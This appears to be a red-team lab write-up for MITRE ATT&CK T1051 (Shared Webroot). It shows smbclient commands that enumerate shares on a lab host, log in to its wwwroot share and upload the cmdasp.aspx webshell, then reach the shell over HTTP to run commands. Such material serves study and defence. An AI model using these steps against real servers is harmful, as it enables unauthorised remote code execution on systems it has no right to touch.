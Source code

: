 ```yaml
---
description: Lateral Movement
---
```


# T1051: Shared Webroot

## Execution

Enumerating victim host `10.0.0.6` for any shares:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	temp            Disk      
	tools           Disk      
	transcripts     Disk      
	wwwroot         Disk      
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Logging in to the `wwwroot` share:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Uploading a webshell into the `wwwroot`:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

		6463487 blocks of size 4096. 3032260 blocks available
```

Same as above in a picture:

![](../../.gitbook/assets/webroot-ownage.png)

Attacker can now access the newly uploaded webshell via `http://10.0.0.6/c.aspx` and start executing commands:

![](../../.gitbook/assets/webroot-rce.png)

## Observations

See T1108: Webshells for observations:

{% page-ref page="../privilege-escalation/t1108-redundant-access.md" %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1051" %}

